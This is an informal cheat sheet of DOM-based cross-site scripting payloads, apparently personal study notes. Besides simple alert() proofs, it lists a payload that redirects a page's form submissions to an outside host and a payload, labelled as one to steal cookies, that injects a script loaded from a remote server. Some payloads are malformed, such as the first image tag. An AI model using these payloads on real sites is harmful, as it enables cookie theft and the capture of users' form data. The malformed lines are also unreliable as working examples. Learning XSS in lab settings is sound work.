 XSS DOM: 

DOM runs on the client side,the payloads are process on the browser and not on the server side 

Payloads:

1) "><img=src="aa" onerror="alert(document.domain)">

2) "><svg/onload="alert(document.domain)">

3)Complex Payload using POST method

	"><svg/onload="document.forms[1].action='//sitecom.site/text.php'">


4) PART2: Complex JS payload to steal Cookies:


	- host JS file on the server. 

	- The file has an alert("XSS"); function

	- Craft a payload to connect to it :

		var s= document.createElement('SCRIPT');
		s.src= '//text.site/alert.php';

		document.body.appendChild(s);
		
	
	- Url :
		"><svg/onload="var s= document.createElement('SCRIPT');s.src= 
		 '//text.site/alert.php';document.body.appendChild(s);"

	

5) Image :

	- noImage.jpg' onerror=alert("xss");>
	
	- URL : https://xss-doc.appspot.com/demo/3#imge.jpg' onerror=alert("xss");>

	- 

